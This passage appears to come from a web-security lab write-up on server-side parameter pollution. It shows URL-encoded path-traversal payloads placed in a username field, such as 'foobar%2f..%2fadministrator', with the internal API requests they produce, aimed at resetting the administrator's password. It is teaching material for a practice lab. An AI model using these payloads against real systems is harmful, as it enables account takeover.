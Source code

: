 We could submit URL-encoded `peter/../admin` as the value of the `name` parameter:

```http
GET /edit_profile.php?name=peter%2f..%2fadmin
```

This may result in the following server-side request:

```http
GET /api/private/users/peter/../admin
```

If the server-side client or back-end API normalize this path, it may be resolved to `/api/private/users/admin`.

In our case, the browser sends the following request:

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%23
```

And the server-side request may resulted in this:

```http
GET /api/users/foobar#/email
```

## Exploitation

Armed with above information, we can try to **perform path traversal to reset password on account `administrator`**:

```http
csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2fadministrator
```

Which the server-side request may resulted in:

```http
GET /api/users/foobar/../administrator/email
```

And after path normalization, it should be resolved to this:

```http
GET /api/users/administrator/email
```

Let's try that!

